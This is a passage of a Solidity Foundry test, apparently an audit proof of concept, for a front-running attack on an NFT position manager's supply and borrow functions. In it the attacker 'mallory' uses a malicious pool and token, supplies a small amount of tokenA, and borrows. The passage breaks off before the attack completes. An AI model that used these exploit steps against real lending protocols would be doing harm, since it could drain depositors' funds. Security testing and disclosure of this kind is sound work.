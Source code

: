 contract SupplyFrontRunningTest is DeployNFTPositionManager {
  address alice = address(1);
  address mallory = address(2); //malicious attacker

  function setUp() public {
    _setUpPool(); //setup both a regular and malicious pool
    _setup();
  }

function testSupplyFrontRunningAttack() public {

    address liquidityProvider = address(3);

    // Setup with minimal amounts
    uint256 initialLiquidity = 1 ether;
    uint256 aliceSupplyAmount = 10 ether;
    uint256 malloryInitialSupply = 0.01 ether;
    uint256 malloryBorrowAmount = 0.005 ether;

    // Mint tokens for all participants
    maliciousToken.mint(liquidityProvider, initialLiquidity);
    tokenA.mint(alice, aliceSupplyAmount);
    tokenA.mint(mallory, malloryInitialSupply);
    console99.log(tokenA.balanceOf(mallory));

    // Set up initial liquidity in the malicious pool
    vm.startPrank(liquidityProvider);
    uint256 liquidityProviderTokenId = nftPositionManager.mint(address(maliciousPool));
    maliciousToken.approve(address(nftPositionManager), initialLiquidity);
    nftPositionManager.supply(INFTPositionManager.AssetOperationParams({
        asset: address(maliciousToken),
        target: liquidityProvider,
        amount: initialLiquidity,
        tokenId: liquidityProviderTokenId,
        data: DataTypes.ExtraData({hookData: "", interestRateData: ""})
    }));
    vm.stopPrank();

    // Attacker's actions
    vm.startPrank(mallory);
    
    // 1. Mallory mints a new position with the malicious pool
    uint256 malloryTokenId = nftPositionManager.mint(address(maliciousPool));

    // 2. Mallory supplies a small amount of tokenA
    tokenA.approve(address(nftPositionManager), malloryInitialSupply);
    nftPositionManager.supply(INFTPositionManager.AssetOperationParams({
        asset: address(tokenA),
        target: mallory,
        amount: malloryInitialSupply,
        tokenId: malloryTokenId,
        data: DataTypes.ExtraData({hookData: "", interestRateData: ""})
    }));

    // 3. Mallory borrows a small amount of malicious token
    nftPositionManager.borrow(INFTPositionManager.AssetOperationParams({
        asset: address(maliciousToken),
        target: mallory,
        amount: malloryBorrowAmount,
        tokenId: malloryTokenId,
        data: DataTypes.ExtraData({hookData: "", interestRateData: ""})
    }));
